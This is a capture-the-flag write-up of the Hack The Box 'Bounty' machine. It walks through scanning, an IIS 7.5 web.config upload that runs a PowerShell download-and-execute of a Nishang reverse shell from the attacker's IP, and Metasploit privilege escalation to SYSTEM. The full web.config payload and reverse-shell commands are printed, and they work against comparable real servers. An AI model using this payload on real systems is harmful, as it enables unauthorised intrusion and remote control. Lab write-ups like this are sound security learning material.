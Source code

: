```yaml
---
layout: PostSimple
date: 2020-03-09
title:     "Hack The Box - Bounty"
tags: ['windows','easy','file-upload-vuln','isi']
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/1.png)

We are going to pwn Bounty from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/142](https://www.hackthebox.eu/home/machines/profile/142)


Lets Begin with our Initial Nmap Scan.

Nmap Scan Results:

```

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|7|Vista|Phone|8.1|2012 (91%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Vista SP2 (91%), Microsoft Windows Server 2008 R2 SP1 (90%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
## HTTP:
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/2.png)

Nothing interesting, lets run ``Gobuster``.

Gobuster Scan Results:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.93
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/03/09 19:03:45 Starting gobuster
===============================================================
/aspnet_client (Status: 301)
/transfer.aspx (Status: 200)
/uploadedfiles (Status: 301)
===============================================================
2020/03/09 19:10:48 Finished
===============================================================

```

``/transfer.aspx`` 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/3.png)

There is a file upload options so I guess we can upload a reverse shell here and access them in ``/uploadedfiles``

## Test:

I uploaded ``wolf.jpg`` and it Successfully Uploaded

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/4.png)

``/uploadedfiles/wolf.jpg``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/5.png)

So I tried uploading ``.aspx`` file and I get Invalid File.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/6.png)

I googled about ISI 7.5 exploits and found there is a RCE via uploading ``web.config``.

> Reference https://sethjackson.github.io/2018/10/27/rce-through-web-config-upload/

So I used [Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) to get shell.

If we look at the Shell it gives us some of the examples.

```
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444

Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
```
I copied one of the example and changed it to my IP and paste it in bottom of the file. [br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/7.png)[br/](br/)
This not only load the module but also the shell give me a callback.

Started python server.

``web.config``

```
[?xml version="1.0" encoding="UTF-8"?](?xml version="1.0" encoding="UTF-8"?)
[configuration](configuration)
   [system.webServer](system.webServer)
      [handlers accessPolicy="Read, Script, Write"](handlers accessPolicy="Read, Script, Write")
         [add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" /](add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" /)         
      [/handlers](/handlers)
      [security](security)
         [requestFiltering](requestFiltering)
            [fileExtensions](fileExtensions)
               [remove fileExtension=".config" /](remove fileExtension=".config" /)
            [/fileExtensions](/fileExtensions)
            [hiddenSegments](hiddenSegments)
               [remove segment="web.config" /](remove segment="web.config" /)
            [/hiddenSegments](/hiddenSegments)
         [/requestFiltering](/requestFiltering)
      [/security](/security)
   [/system.webServer](/system.webServer)
[/configuration](/configuration)
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
[% Response.write("-"&"-](% Response.write("-"&"-)") %>

<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.22:8000/Invoke-PowerShellTcp.ps1')")
o = cmd.StdOut.Readall()
Response.write(o)
%>

[% Response.write("<!-"&"-") %](% Response.write("<!-"&"-") %)
-->
```

Uploaded ``web.config``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/8.png)

Now I need to visit ``10.10.10.93/uploadedfiles/web.config`` and I will get the shell.

``Status 200`` means it successfully downloaded to the box. And NC give me the shell.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/9.png)

I changed to Metasploit

``systeminfo``

```
Host Name:                 BOUNTY
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3606965-84760
Original Install Date:     5/30/2018, 12:22:24 AM
System Boot Time:          3/9/2020, 6:53:24 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,573 MB
Virtual Memory: Max Size:  4,095 MB
Virtual Memory: Available: 3,575 MB
Virtual Memory: In Use:    520 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
```

Where ``Hotfix(s): N/A`` which means the system is not updated so far.

> A hotfix or quick-fix engineering update is a single, cumulative package that includes information that is used to address a problem in a software product.

We can try ``local_exploit_suggester`` this will give us some suggestions to exploit. Before that we need to ``migrate`` process inorder to make it stable. So I won’t face any errors while using any exploit. 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/10.png)

Now Background the session and run ``local_exploit_suggester``.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/11.png)

It displayes a lot of vulnerable so I chose random one ``windows/local/ms10_092_schelevator``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-bounty/12.png)

Got Authority\System